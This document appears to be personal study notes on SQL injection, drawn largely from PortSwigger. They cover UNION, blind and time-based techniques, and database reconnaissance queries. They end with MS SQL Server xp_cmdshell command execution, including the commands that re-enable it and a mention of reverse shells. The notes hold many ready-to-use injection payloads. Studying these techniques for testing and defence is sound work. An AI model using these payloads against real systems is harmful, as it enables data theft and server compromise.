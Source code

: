## SQL Injection

- **What:** Attacker injects SQL code into the application’s database queries. This can read, modify, or delete data that the app can access, bypassing normal constraints.
    
- **Impact:** Steal user data (password hashes, PII, credit cards), modify or drop tables, or even execute commands if the DB supports it. Many major breaches have involved SQLi.
    
- **Common payloads:**
    
    - **Login bypass:** `admin' OR '1'='1' --` in a login field to force the condition true.
        
    - **Data retrieval:** `' UNION SELECT username, password FROM users --`.
        
    - **Boolean testing:** append `' OR 1=1; --` vs `' OR 1=2; --` to observe differences.
        
    - **Error-based:** Inject invalid SQL to elicit errors (like `'` causing syntax error).
        
    - **Blind (time-based):** `' OR IF(1=1,SLEEP(5),0) --` to see a delayed response.
        
- **Detection:** Try a single quote (`'`) or known payloads (`OR 1=1 --`) on all inputs. Observe SQL errors or changes in output. PortSwigger suggests testing `'`, `OR 1=1`, `OR 1=2`, and payloads that cause delays.
- **Prevention:** Use parameterized queries (prepared statements) or ORM query builders. Never directly concatenate user input into SQL strings.

# Detailed documentation
## Detection
- **Manual testing**:
    - Insert single quote `'`; look for errors.
    - Test boolean logic: `OR 1=1` vs `OR 1=2`.
    - Time-based payloads: delays to notice slow responses.
    - OAST payloads: trigger out‑of‑band interactions.
- **Automation**: Use Burp Scanner for rapid scanning.

## Attack types
### 1. Retrieving hidden data
- Inject comment to remove conditions:
    - `…?category=Gifts'--` drops `AND released = 1`, revealing unreleased items. [PortSwigger+1PortSwigger+1](https://portswigger.net/web-security/sql-injection?utm_source=chatgpt.com

### 2. UNION-based data exfiltration
- Use `UNION SELECT` to merge attacker-selected rows.    
- Steps:
    1. Determine column count using `ORDER BY` or `UNION SELECT NULL,...`.
    2. Find which columns accept strings.
    3. Inject:
        `' UNION SELECT username,password FROM users--` 

### 3. Blind SQL Injection
- When no direct data output:
    - **Boolean-based**: compare conditions to infer data:
        `' AND SUBSTRING((SELECT password FROM Users WHERE username='Administrator'),1,1)>'m`
        Repeat until resolved. 
    - **Error-based**: use errors to leak data:
        `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`    
    - **Time-based**:
        `'…' OR pg_sleep(10)--` 
        Observe 10s delay. 
    - **Out-of-band (OAST)**: trigger DNS/HTTP to exfiltrate.

### Database Recon
- Query version:
    - SQL Server/MySQL: `SELECT @@version`
    - PostgreSQL: `SELECT version()`
    - Oracle: `SELECT * FROM v$version`
- Inspect schema:
    - `information_schema.tables` → list tables.
    - `information_schema.columns WHERE table_name='X'` → columns.

## **SQL Injection UNION Attacks**

- **Definition:**  
    A SQL injection UNION attack exploits vulnerable applications that return SQL query results in their responses by using the `UNION` keyword to combine results from additional queries and extract data from other database tables.
- **How UNION Works:**  
    `UNION` allows appending results from one or more `SELECT` queries to the original query's result set, e.g.,
    `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
- **Requirements for UNION Injection:**
    1. Both queries must return the same _number_ of columns.
    2. Corresponding columns must have _compatible data types_.
- **Step 1: Determine Number of Columns Returned by Original Query**  
    Two techniques:
    - Use incremental `ORDER BY` clauses to find when the column index causes an error.
    - Use `UNION SELECT` payloads with varying numbers of `NULL`s until no error occurs (`NULL` is compatible with many data types)
- **Step 2: Identify Columns That Can Hold String Data**  
    Test each column by injecting a string like `'a'` into it via `UNION SELECT 'a', NULL, ...--` payloads.  
    A data type mismatch (e.g., trying to put a string into an integer column) triggers an error.
- **Step 3: Extract Data**  
    Once number of columns and string columns are known, inject statements like:
    `' UNION SELECT username, password FROM users--`
    to retrieve sensitive data.
- **Concatenating Multiple Values in One Column:**  
    When only one column is returned, use string concatenation to combine fields, e.g. on Oracle:
    `' UNION SELECT username || '~' || password FROM users--`
- **Database-Specific Details:**
    - Oracle requires a `FROM DUAL` clause for `SELECT` with no table.
    - MySQL comments need a space after `--`.

## **Blind SQL Injection**

- **Definition:**  
    Blind SQL injection occurs when the application is vulnerable, but its responses do not disclose query results or detailed error messages, restricting ability to see immediate output from injected queries.
- **Why UNION Attacks Fail Here:**  
    `UNION` attacks rely on visible results in responses, which blind SQL injection does not expose.
- **Technique: Using Conditional Responses**  
    Exploit differences in application behavior by injecting boolean conditions that alter the response in some detectable way.  
    Example with tracking cookie:
    `TrackingId=xyz' AND '1'='1  # condition true: app responds "Welcome back" TrackingId=xyz' AND '1'='2  # condition false: no welcome message`
- **Character-by-Character Extraction:**  
    Use conditions on values to infer data one character at a time using SQL functions like `SUBSTRING` or `SUBSTR`.  
    Example to extract password's first character:
    `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Admin'), 1, 1) > 'm`
    Adjust character guesses until condition matches.
- **Error-Based Blind SQL Injection:**  
    Some blind SQL exploits leverage causing database errors conditionally, e.g., divide-by-zero, to distinguish true/false conditions by different application responses.  
    Example:
    `xyz' AND (SELECT CASE WHEN (condition) THEN 1/0 ELSE 'a' END)='a`
- **Verbose Error Messages:**  
    Occasionally, misconfigurations expose detailed SQL errors revealing query structure and aiding injection construction.
    

These notes cover the **core methods, techniques, and considerations** for both types of SQL injection attacks, useful for understanding vulnerabilities, exploitation strategies, and database-specific nuances.


[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# SQLi / MS SQL Server RCE / Database Exploitation

---
## **Key Concept:**

- `xp_cmdshell` is a **built-in extended stored procedure** in MS SQL Server.
- It allows you to **execute arbitrary OS commands** directly from SQL queries.
- If enabled, it’s a **direct way to get a shell-like access** on the underlying Windows host.
    

---

## **Usage / Syntax**

```sql
-- Execute a single command
xp_cmdshell 'whoami';

-- Execute multiple commands (use GO to terminate batch)
xp_cmdshell 'dir C:\';
GO
```

- `GO` = batch separator for SQL Server Management Studio (SSMS) or `sqlcmd`.
- Typical commands:
    - `whoami`, `ipconfig`, `net user` → info gathering
    - `powershell -c "..."` → download & execute payloads
    - `cmd.exe /c ...` → run batch commands

---

## **Pre-requisites**

- SQL user must have **sysadmin privileges**, otherwise `xp_cmdshell` may be disabled.
- If disabled, you can try:

```sql
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
```

---

## **Post-Exploitation / Shell**

- Once xp_cmdshell works, you essentially have a **limited Windows shell**.
- You can then pivot to:
    - Upload/download files
    - Run scripts
    - Spawn a reverse shell with `powershell` or `nc.exe`

---